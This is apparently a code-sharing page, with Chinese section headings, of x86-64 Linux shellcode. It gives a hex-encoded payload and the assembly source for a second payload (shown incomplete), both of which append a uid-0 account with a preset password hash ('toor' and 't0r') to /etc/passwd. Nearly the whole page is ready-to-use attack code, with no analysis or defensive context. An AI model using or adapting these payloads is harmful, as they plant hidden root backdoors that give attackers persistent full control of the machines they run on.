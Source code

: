 ```
\x5f\x48\x31\xc0\x48\x31\xf6\x66\xbe\x01\x04\x04\x02\x0f\x05\x48\x97\xeb\x0e\x5e\x6a\x01\x58\x6a\x26\x5a\x0f\x05\x6a\x3c\x58\x0f\x05\xe8\xed\xff\xff\xff\x74\x6f\x6f\x72\x3a\x73\x58\x75\x43\x4b\x69\x37\x6b\x33\x58\x68\x2f\x73\x3a\x30\x3a\x30\x3a\x3a\x2f\x72\x6f\x6f\x74\x3a\x2f\x62\x69\x6e\x2f\x73\x68\x0a\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64
```

#### 2.  137bytes 添加     t0r:3UgT5tXKUkUFg:0:0::/root:/bin/bash

```
section .text
global _start
_start:

    ;sys_setreuid(uint ruid, uint euid)
    ;xor     rax, rax
    ;mov     al,113   ;syscall 	sys_setreuid
    ;xor     rbx,rbx     ;arg 1 -- set real uid to root
    ;mov     rcx,rbx     ;arg 2 -- set effective uid to root
    ; syscall       ;setreuid（） 设置调用过程的真实和有效用户 ID。
    
	;sys_setregid(uint rgid, uint egid)
    ; xor     rax,rax
    ; mov     al,114    ;syscall sys_setregid
    ; xor     rbx,rbx  ;arg 1 -- set real uid to root
    ; mov     rcx,rbx     ;arg 2 -- set effective uid to root
    ; syscall
    
   
    xor rbx,    rbx
    mov     ebx,    0x647773FF
    shr     rbx,    8
    push    rbx                             ;string \00dws
    mov     rbx,    0x7361702f6374652f
    push    rbx                             ;string sap/cte/
    mov     rbx,    0x0A687361622F6EFF
    shr     rbx,    8
    push    rbx                             ;string \00\nhsab/n
    mov     rbx,    0x69622F3A746F6F72
    push    rbx                             ;string ib/:toor
    mov     rbx,    0x2F3A3A303A303A67
    push    rbx                             ;string /::0:0:g
    mov rbx,    0x46556B554B587435
    push    rbx             ;string FUkUKXt5
    mov rbx,    0x546755333A723074
    push    rbx             ;string TgU3:r0t
    mov rbx,    rsp         
    push    rbp            
    mov rbp,    rsp         
    sub rsp,        16
    mov [rbp - 16], rbx     
    mov si,     0x0401      
    mov rdi,        rbx
    add rdi,        40     
    xor rax,        rax
    mov al,     2   
    syscall             ;open()
    
    ;sys_write(uint fd, char* buf, uint size)
    mov [rbp - 4],  eax    
    mov rcx,rbx     
    xor rdx, rdx
    mov dl,39      
    mov rsi,rcx    
```
